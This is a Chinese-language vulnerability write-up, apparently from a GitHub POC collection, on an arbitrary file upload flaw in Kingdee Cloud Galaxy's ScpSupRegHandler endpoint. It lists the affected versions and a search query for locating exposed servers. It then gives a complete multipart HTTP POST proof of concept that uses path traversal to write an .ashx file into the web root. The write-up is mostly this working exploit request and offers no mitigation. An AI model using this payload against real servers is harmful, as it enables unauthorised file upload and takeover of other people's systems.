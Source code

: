 ## 金蝶OA云星空 ScpSupRegHandler 任意文件上传漏洞

### 漏洞描述：
金蝶OA云星空 ScpSupRegHandler接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取服务器权限

### 漏洞影响：

金蝶云星空企业版私有云、企业版私有云（订阅）、标准版私有云（订阅）三个产品V6.2(含17年12月补丁) 至 V8.1(含23年9月补丁)

### 网络测绘：
```
app="金蝶云星空-管理中心"
```

### 漏洞复现：
登陆页面
POC:
```
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061

Content-Disposition: form-data; name="FID"

2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain

11
--2ac719f8e29343df94aa4ab49e456061-
```

![image](https://github.com/wy876/POC/assets/139549762/0175cf8c-a854-4b15-800c-7a07e3d0306c)

![image](https://github.com/wy876/POC/assets/139549762/7e731399-8257-448b-9ab4-2260d9c4dc43)
